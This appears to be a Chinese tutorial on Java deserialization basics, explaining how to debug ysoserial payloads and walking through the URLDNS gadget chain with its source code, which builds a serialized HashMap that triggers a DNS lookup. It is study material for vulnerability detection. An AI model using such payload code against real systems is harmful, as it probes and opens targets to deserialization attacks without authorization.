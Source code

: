 # 反序列化基础篇-URLDNS

## 0x00 前置知识
### 如何调试ysoserial
如果单独调试payload的话，可以直接调试执行payloads里面的java文件，每个都带调用`PayloadRunner`的`main`函数，不设置运行参数会取`calc.exe`作为默认参数取执行。 `PayloadRunner`会先生成序列化数据再进行反序列化。

![image](https://user-images.githubusercontent.com/84888757/204566078-81456c66-4864-4665-95aa-33a7be10ea91.png)

![image](https://user-images.githubusercontent.com/84888757/204566127-aaa9d737-a4a3-44f7-8730-7284dff212f4.png)

![image](https://user-images.githubusercontent.com/84888757/204566958-df1bea0d-e132-409d-83fb-827ed7528814.png)



### writeObject和readObject
- Java在序列化一个对象时，将会调用这个对象中的 `writeObject` 方法，参数类型是 `ObjectOutputStream` ，开发者可以将任何内容写入这个 `stream` 中；
- 反序列化时，会调用 `readObject` ，开发者也可以从中读取出前面写入的内容，并进行处理。

### URLDNS介绍
URLDNS 就是ysoserial中⼀个利⽤链的名字，但它的参数只能是一个URL，其能触发的结果只是一次DNS请求，并不是命令执行。
虽然URLDNS不能进行命令执行，但是它有如下的优点，适合我们用来进行反序列化漏洞的检测：
- 使⽤Java内置的类构造，对第三⽅库没有依赖。
- 在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞。

打开 `src/main/java/ysoserial/payloads/URLDNS.java` 看看ysoserial是如何构造反序列化链的。
### URLDNS源码及利用链
ysoserial已经写明了调用链，显然，这个调用链就是反序列化的过程：
```
/*
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 */
```

`URLDNS.java`如下：
```
public class URLDNS implements ObjectPayload<Object> {

    public Object getObject(final String url) throws Exception {

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

        //在上面的put过程中，计算并缓存URL的hashCode。现在重置它，以便在反序列化过程中调用hashCode时能触发DNS查找。
        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

        return ht;
    }
```